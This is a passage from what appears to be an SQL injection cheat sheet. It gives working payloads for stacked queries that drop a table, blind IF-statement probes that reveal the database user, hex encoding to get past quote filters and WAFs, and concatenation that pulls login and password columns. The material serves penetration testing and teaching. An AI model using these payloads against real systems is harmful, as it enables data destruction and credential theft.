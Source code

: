 ##### Stacked SQL Injection Attack Samples

-   ID:  `10;DROP members --`
-   `SELECT * FROM products WHERE id = 10; DROP members--`

This will run  _DROP members_  SQL sentence after normal SQL Query.  

### If Statements

Get response based on a if statement. This is  **one of the key points of Blind SQL Injection**, also can be very useful to test simple stuff blindly and  **accurately**.

#### MySQL If Statement

-   `IF(**_condition_,_true-part_,_false-part_**)` (M)`  
    SELECT IF(1=1,'true','false')`

#### SQL Server If Statement

-   `IF  **_condition_**  **_true-part_**  ELSE  **_false-part_**`  (S)  
    `IF (1=1) SELECT 'true' ELSE SELECT 'false'`

##### If Statement SQL Injection Attack Samples

`if ((select user) = 'sa' OR (select user) = 'dbo') select 1 else select 1/0`  (S)  
This will throw an  **divide by zero error**  if current logged user is not  **"sa" or "dbo"**.

### Using Integers

Very useful for bypassing,  **magic_quotes() and similar filters**, or even WAFs.

-   `0x_HEXNUMBER_`  (SM)  
    You can write hex like these;  
      
    `SELECT CHAR(0x66)`  (S)  
    `SELECT 0x5045`  (_this is not an integer it will be a string from Hex_)  (M)  
    `SELECT 0x50 + 0x45`  (_this is integer now!_)  (M)

### String Operations

String related operations. These can be quite useful to build up injections which are not using any quotes, bypass any other black listing or determine back end database.

#### String Concatenation

-   `+`  (S)  
    `SELECT login  + '-' +  password FROM members`  
      
    
-   `||`  (*MO)  
    `SELECT login  || '-' ||  password FROM members`

***About MySQL "||";**  
If MySQL is running in ANSI mode it’s going to work but otherwise MySQL accept it as `logical operator` it’ll return 0. Better way to do it is using  `CONCAT()`  function in MySQL.

-   `CONCAT(str1, str2, str3, ...)`  (M)  
    Concatenate supplied strings.  
    `SELECT  CONCAT(login, password)  FROM members`
